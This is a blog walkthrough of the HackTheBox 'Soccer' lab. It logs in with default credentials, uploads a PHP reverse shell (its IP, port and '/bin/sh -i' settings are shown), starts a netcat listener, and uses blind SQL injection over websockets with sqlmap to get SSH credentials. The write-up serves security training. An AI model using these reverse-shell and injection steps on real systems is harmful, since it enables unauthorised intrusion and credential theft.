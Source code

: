 ```yaml
---
title: "HackTheBox-Write-Up---Soccer-fe86b37d7037"
date: 2023-05-03
layout: post
categories: medium
---
```



HackTheBox Write Up — Soccer
============================


A brief walkthrough of the ‘Soccer’

---

### HackTheBox Write Up — Soccer

#### A walkthrough of the ‘Soccer’ box from HackTheBox

![](/../darkyolks.com/assets/images/1jnFpt4i0LUVaVrlqP1E4Gw.png)
#### Scanning & Enumeration

As usual, the first step is to start with an Nmap scan. This revealed ports 22 (SSH), 80 (HTTP), and 9091.

Next I navigated to the webpage, which didn’t have a lot of options available to investigate. Next up is directory busting.

#### **Directory Busting**

![](/../darkyolks.com/assets/images/1N0jZonUbSbE5ypKpdAI5pA.png)

`ffuf -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -u http://soccer.htb:80/FUZZ`

Since I’m currently studying for the PNPT from TCM Security and the training is fresh in my mind, I’ll be using FFuF for directory enumeration.

The only real result that came back was the subdomain: `http://soccer.htb/tiny` , which results in a login page that can potentially be brute forced.

#### Initial Access

Before spending time attempting to brute force, let’s first do some OSINT by doing a quick Google search on default credentials for TinyFileManager.

This pays off and saves us some time as the default admin username and password worked and we’re logged in.

![](/../darkyolks.com/assets/images/1CvlPP484HahwYUCEHd80IA.png)

Digging through the ‘Tiny File Manager’ web portal, the first thing that stands out to me is the ‘Upload’ section. This is just asking to be abused and can potentially lead to a reverse shell.

\*Take notice of the permissions set for each file and folder. The ‘/tiny/uploads’ directory is the only folder we have permission to write to.

I decided to use [this](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) code for the reverse shell from pentestmonkey, which I’ve nicknamed catshell.php for this lab (don’t ask me why).

Be sure to adjust the IP and port before saving the file. Below is a snip it from the code showing where these changes are made.

```
set_time_limit (0);  
$VERSION = "1.0";  
$ip = '127.0.0.1';  // CHANGE THIS  
$port = 1234;       // CHANGE THIS  
$chunk_size = 1400;  
$write_a = null;  
$error_a = null;  
$shell = 'uname -a; w; id; /bin/sh -i';  
$daemon = 0;  
$debug = 0;
```

Next, I set up a listener using netcat:

```
nc -lvnp 4444
```

All we have to do is upload this file and then hit the ‘Direct Link’ button under the ‘Actions’ section. With this, we gain a shell.

The first thing to do is use the following command to get bash:

```
python3 -c "import pty;pty.spawn('/bin/bash')" 
```

Checking the user permissions next, we see our user www-data has low privileges.

![](/../darkyolks.com/assets/images/1Oxn6mA14oA-l13zkoxcUiQ.png)

With this shell we can enumerate further. Referencing the previous findings on port 80/http, I list out the contents of the /etc/nginx/site-enabled directory using the following command:

```
ls /etc/nginx/site-enabled
```

This reveals a file called `soc-player.htb`. When opening this file using cat, it reveals the server\_name: `soc-player.soccer.htb`

I need this to reflect in the /etc/hosts file so I input it, replacing the previous soccer.htb entry.

Navigating to this newly found site we have more options to explore. We now have a few directory listings on the header menu: “Match”, “Login”, “Sign Up”.

I neglected to get a screenshot of this page. But if you can imagine a very simple webpage with some basic directory listings, a robot (or I suppose a prosthetic) soccer leg kicking a flaming soccer ball, and some lorem ipsum giving a brief history of the entire sport of soccer; then you’re up to speed.

Let’s go ahead and sign up. This presents us with one free ticket voucher and an input field where we can check the validity of our ticket ID. This may prove to be an interesting foothold to exploit.

#### Privilege Escalation

Next, I investigate this newly found subdomain further by inspecting the webpage which reveals that Websockets are in use here. Researching possible SQLi for Websockets, we have one that should work found [here](https://rayhan0x01.github.io/ctf/2021/04/02/blind-sqli-over-websocket-automation.html) that actually automates this.

We’ll need to adjust the parameters for this script. Ensure the “`ws_server`” parameter has the correct URL and the “`data`” contains the “id” parameter as this is what we are using for authentication:

![](/../darkyolks.com/assets/images/1xXN6XCi2hU6M2zAJPIKiwA.png)

Following the directions of the author of this script, I used the following sqlmap command. I just adjusted the tags at the end to narrow down the search a bit. This took a very long time, so keep that in mind if you’re following along.

![](/../darkyolks.com/assets/images/15XQszEZOS4oql-8rlTp4ww.png)

After a long wait and a nice coffee break, SQLMap yielded Database credentials for soccer\_db.

![](/../darkyolks.com/assets/images/1UhU4FA7po_4OcbA2bYQadQ.png)

Using these credentials to establish an SSH connection worked like a charm, so I just navigated to the root folder to obtain the ‘user.txt’ flag.

![](/../darkyolks.com/assets/images/1-_iENcZpdkR5fCBdnlnO5w.png)
#### GAME OVER



By [Grant Wilsey](https://medium.com/@darkyolks) on [May 3, 2023](https://medium.com/p/fe86b37d7037).

[Canonical link](https://medium.com/@darkyolks/hackthebox-write-up-soccer-fe86b37d7037)

Exported from [Medium](https://medium.com) on December 27, 2024.

